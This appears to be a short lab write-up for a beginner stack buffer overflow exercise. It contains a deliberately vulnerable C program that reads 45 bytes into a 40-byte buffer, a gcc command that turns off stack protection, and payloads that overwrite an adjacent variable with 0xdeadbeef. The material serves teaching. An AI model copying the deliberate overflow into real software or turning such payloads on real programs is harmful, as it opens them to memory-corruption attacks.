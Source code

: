 ## Bof2
<br>

Source Code:
```
#include <stdlib.h>
#include <stdio.h>

void main(int argc, char *argv[])
{
  int var;
  int check = 0x04030201;
  char buf[40];

  fgets(buf,45,stdin);

  printf("\n[buf]: %s\n", buf);
  printf("[check] 0x%x\n", check);

  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");

  if (check == 0xdeadbeef)
   {
     printf("Yeah! You win!\n");
 
   }
}
```
<br>

Stack Frame

<br>

![](./imgs/stack_bof2.png)

<br>

Complie by gcc: <br>
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2 ` <br>
![complie bof2](./imgs/bof2_1.png)

<br>

Run program to have output "You are on the right way": <br>
`echo $(python -c "print('a'*41)") | ./bof2.out  ` <br>
![you are on right way](./imgs/bof2_2.png)

<br>

Run program to have output "Yeah! You win!":  <br>
`echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out` <br>
![you win](./imgs/bof2_3.png)